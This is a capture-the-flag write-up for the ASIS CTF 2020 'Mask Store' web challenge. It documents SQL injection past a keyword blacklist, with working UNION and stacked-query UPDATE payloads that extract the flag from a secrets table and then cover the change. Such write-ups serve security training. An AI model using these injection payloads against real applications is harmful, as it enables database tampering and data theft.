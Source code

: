 # ASIS CTF 2020 - Mask Store
## Web

[App source](app.py)

### SQLi and Blacklist
The application is vulnerable to SQL injection in `/panel?orderid`

The orderid parameter does not allow the use of any of these words
```python
blacklist = ["information_schema","users","processlist","load","insert","into","mysql","innodb","benchmark","sleep","md5","sha","password"]
```
We use `group_concat` to get a list of all orders.
```
/panel?orderid='UNION SELECT 1,group_concat(concat('|',id,'|')) FROM orders -- -
|97ff-7337b9f98d67|,|a876-4717a0000009|,|fadd-n3b5b3a99d09|
```

### Admin interaction
We do not have privileges to interact with the entire database at this injection point, we need an administrator to visit our profile where we will enter the injection as our profile image.

```python
  if("username" in session and "id" in session and session["username"] == ADMIN_USERNAME and session["id"] == ADMIN_ID):
      cur = cursor
  else:
      cur = sandboxedCursor
```

### Testing Stacked Queries Update
The library used to make the MySQL requests could be vulnerable to Stacked Queries, allowing us to perform an INSERT or UPDATE query.

We tried to modify the id (the only field we know) of an order to 'PATATA'.

`?orderid=';UPDATE orders SET id='PATATA' WHERE id='fadd-n3b5b3a99d09' -- -`

We consulted the article 'PATATA' with satisfactory results.
```
/panel?orderid=PATATA
               <p class="pt-2">
                    Status: <span id="orderstat"></span><br>
                    Description: <span id="orderdes"></span>
                    <order uuid="fadd-n3b5b3a99d09" tstart="1607344412" description="Black masks" status="0" ></order>
                </p>
```
`|97ff-7337b9f98d67|,|a876-4717a0000009|,|PATATA|`


### Get Flag

As we do not know the size of the `id` field in the `secrets` table, we only enter 17 characters, also, by doing it in 2 parts we avoid that another team reads the flag if it casually lists the orders at that same moment

`';UPDATE orders set id=(SELECT substr(group_concat(flag),1,17) FROM secrets) WHERE id='PATATA' LIMIT 1 -- -`

![](img/maskstore.png)

`|97ff-7337b9f98d67|,|a876-4717a0000009|,|ASIS{0hhhhhhhhH_y|`

`';UPDATE orders set id=(SELECT substr(group_concat(flag),18,17) FROM secrets) WHERE id LIKE 'ASIS%' LIMIT 1 -- -`

`|97ff-7337b9f98d67|,|a876-4717a0000009|,|0U_G07_m3}|`

### Delete Flag

The last step is to restore the initial order ID to prevent another team from discovering the unintended solution.

`';UPDATE orders set id='fadd-n3b5b3a99d09' WHERE id LIKE '0%' -- -`
